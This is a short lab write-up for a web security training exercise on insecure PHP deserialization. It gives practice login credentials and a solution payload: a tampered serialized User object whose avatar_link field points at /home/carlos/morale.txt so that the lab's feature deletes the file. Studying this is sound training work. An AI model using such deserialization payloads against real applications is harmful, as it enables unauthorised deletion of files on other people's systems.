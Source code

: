 [Insecure deserialization](../Insecure%20deserialization.md)
This example relies on the attacker manually invoking the dangerous method via user-accessible functionality.
# Description
This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

You also have access to a backup account: `gregg:rosebud`

# Solution

payload 
```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"e4a2aaoz397a9qrtgbwk0cir39n9dzih";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

Dont forget to change string length indicator